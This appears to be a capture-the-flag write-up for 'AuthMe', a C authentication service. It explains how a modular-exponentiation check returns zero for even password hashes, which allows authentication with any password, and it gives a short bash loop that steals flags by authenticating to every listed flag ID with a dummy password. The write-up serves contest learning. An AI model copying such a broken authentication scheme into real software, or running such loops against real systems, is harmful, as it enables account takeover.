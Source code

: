 # AuthMe

## Description

The service implements a custom authentication protocol. To authenticate, the client
and the server establish a common random value, the first two bytes of the random
are sent by the server, and some bytes are sent by the client. Concatenated, they form
a common secret.

To authenticate the client sends the value of
pow(sha256(password), sha256(random)) by modulo pow(2, 64). The server compares
the expected value with obtained value and if they are equal the user is authenticated.

The service is written in C language and has client and server parts.

## The vuln

The authentication algorithm is insecure because if sha256(password) is even, the
pow result is zero. So half of the flags could be stolen just by asking the client to
authenticate a user with a random password. Sounds simple, but it took more then
2 hours for the first team to exploit the service. This vuln was unintended.


# Exploitation

The exploit is trivial

```
#!/bin/bash

hostname=${1:?Usage: ./spl.sh hostname}

for flagid in $(./client $hostname list); do
    ./client $hostname auth $flagid 1234
done
```
